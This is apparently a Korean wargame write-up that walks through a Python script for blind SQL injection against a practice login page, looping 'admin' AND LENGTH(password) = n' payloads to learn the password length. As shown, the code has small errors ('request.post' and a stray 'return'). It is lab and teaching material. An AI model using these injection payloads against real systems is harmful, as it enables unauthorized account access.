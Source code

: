 |

### 자동화 코드: find_password_length()

---

1. HTTP 요청을 보내기 위해 `requests` 라이브러리 사용

    ```bash
    pip install requests
    ```

    ```python
    import requests
    ```

    |

2. 공격 대상 설정

    SQL Injection에 취약한 `username`과 `password`필드가 있는 URL 설정

    ```python
    url = "http://war.knock-on.org:10003/login"
    ```

    |

3. username, password 설정

    ```python
    username = "admin"
    password = "1"
    ```

    |

4. 비밀번호 길이 알아내는 루프

    ```python
    for length in range(0, 51): # 0부터 50까지
        payload= {"username": f"{username}' AND LENGTH(password) = {length} -- 1", "password": f"{password}"}
        res = request.post(url, data=payload)
    ```

    |

5. 성공 메시지 확인

    로그인 성공 시 `Hello`라는 메시지가 출력되었음을 확인함

    ```python
    if "Hello" in res.text:
        return length
    ```
